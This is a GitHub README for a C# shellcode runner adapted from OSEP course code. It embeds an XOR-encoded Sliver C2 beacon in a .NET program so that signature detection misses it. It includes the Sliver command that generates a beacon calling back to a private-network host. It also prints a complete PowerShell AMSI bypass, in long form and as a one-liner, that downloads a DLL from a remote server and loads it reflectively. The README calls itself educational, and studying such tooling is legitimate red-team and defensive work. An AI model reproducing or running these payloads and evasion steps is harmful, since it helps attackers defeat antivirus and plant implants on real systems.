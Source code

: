 # Sliver_C#_Runner_XoR

There is nothing special going on here; these are super basic methods. Same implementation as the Caesar, different encoding.

## Introduction
This is a Digital Honk Project that illustrates cybersecurity techniques within Windows environments, showcasing shellcode execution from an embedded resource. A standout feature is its use of encoded payloads, which focus on evading detection through custom encoding schemes and AMSI bypass techniques. As the creator of the Payload-Encoder and an advocate for educational purposes, this project aims to deepen the understanding of cyber security mechanisms and ethical hacking practices. This is modified code from the OSEP course to execute Sliver Payloads.

## Key Features
- Shellcode execution from embedded resources in .NET applications.
- Custom payload encoding schemes are used to evade signature-based detection.
- Implementation of AMSI bypass techniques for unrestricted payload execution.
- Demonstrates evasion strategies to bypass sandbox detections.

## Getting Started

## Prerequisites
- A Windows environment (Windows 10/11 recommended).
- .NET Framework 4.7.2 or later.
- Visual Studio 2019 or later for development and compilation.

## Setup
1. **Generate Payload**: Use the Sliver C2 framework to generate your shellcode payload:
```bash
sliver> generate --mtls 192.168.45.221:8888 --os windows --arch amd64 --format shellcode --save beacon.bin
```
2. **Encode Payload**: With the Payload-Encoder tool, encode the `beacon.bin` file for embedding within the project:
The process is detailed at Payload-Encoder.
3. **Embed and Compile**: Include the encoded payload (`honk.user.dat`) as an embedded resource and compile the project using Visual Studio.

## Execution with AMSI Bypass
To execute the payload with an AMSI bypass, use the following PowerShell script, ensuring your environment permits script execution:
```powershell
try{
 [Ref].Assembly.GetTypes() | ? { $_.Name -like "*iUtils" } | % {
     ($c = $_).GetFields('NonPublic,Static') | ? { $_.Name -like "*Context" } | % {
         $g = $_.GetValue($null);
         [IntPtr]$ptr = $g;
         [Int32[]]$buf = @(0);
         [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
     }
 };
 $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.233.137/honk.dll');
 $assem = [System.Reflection.Assembly]::Load($data);
 [honk.Program]::appleBits()
} catch {
 Write-Error "An error occurred: $_"
} finally {
 Write-Host "Press Enter to exit...";
 [Console]::ReadLine()
}
```

One Liner:
```powershell
try{[Ref].Assembly.GetTypes()|?{$_.Name -like "*iUtils"}|%{($c=$_).GetFields('NonPublic,Static')|?{$_.Name -like "*Context"}|%{$g=$_.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf=@(0);[System.Runtime.InteropServices.Marshal]::Copy($buf,0,$ptr,1)}}; $data=(New-Object System.Net.WebClient).DownloadData('http://192.168.233.137/honk.dll'); $assem=[System.Reflection.Assembly]::Load($data); [honk.Program]::appleBits()}catch{Write-Error "An error occurred: $_"}finally{Write-Host "Press Enter to exit...";[Console]::ReadLine()}
```

## Disclaimer

This project is designed for educational and ethical hacking purposes only. Ensure you have explicit authorization to test and use these techniques on any system. The creator and contributors of the Digital Honk Project assume no responsibility for misuse or damages caused by this project.

## License

This project is licensed under the MIT License - see the LICENSE file for details.
Acknowledgments

Special thanks to the Sliver C2 framework for the payload generation capabilities.
Gratitude to the cybersecurity community for the continuous exchange of knowledge and ethical hacking practices.

